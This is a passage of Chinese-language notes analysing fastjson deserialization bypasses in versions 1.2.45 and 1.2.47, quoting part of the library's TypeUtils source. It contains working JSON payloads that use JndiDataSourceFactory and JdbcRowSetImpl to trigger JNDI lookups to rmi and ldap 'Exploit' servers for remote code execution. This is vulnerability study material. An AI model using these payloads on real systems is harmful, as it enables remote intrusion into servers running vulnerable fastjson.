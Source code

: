 ### 1.2.44
修复之前`[`的问题，虽然之前`[`是不能用的

### 1.2.45
增加了黑名单

```java
//需要有第三方组件ibatis-core 3:0
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}
```
### 1.2.47 通杀
通杀autotype和黑名单

```json
{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "ldap://localhost:1389/Exploit", 
        "autoCommit": true
    }
}
```
在TypeUtils的static初始化时调用`com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings`中会将常用的类通过loadclass()放入mapping中

```java
private static void addBaseClassMappings() {
    mappings.put("byte", Byte.TYPE);
    mappings.put("short", Short.TYPE);
    mappings.put("int", Integer.TYPE);
    mappings.put("long", Long.TYPE);
    mappings.put("float", Float.TYPE);
    mappings.put("double", Double.TYPE);
    mappings.put("boolean", Boolean.TYPE);
    mappings.put("char", Character.TYPE);
    mappings.put("[byte", byte[].class);
    mappings.put("[short", short[].class);
    mappings.put("[int", int[].class);
    mappings.put("[long", long[].class);
    mappings.put("[float", float[].class);
    mappings.put("[double", double[].class);
    mappings.put("[boolean", boolean[].class);
    mappings.put("[char", char[].class);
    mappings.put("[B", byte[].class);
    mappings.put("[S", short[].class);
    mappings.put("[I", int[].class);
    mappings.put("[J", long[].class);
    mappings.put("[F", float[].class);
    mappings.put("[D", double[].class);
    mappings.put("[C", char[].class);
    mappings.put("[Z", boolean[].class);
```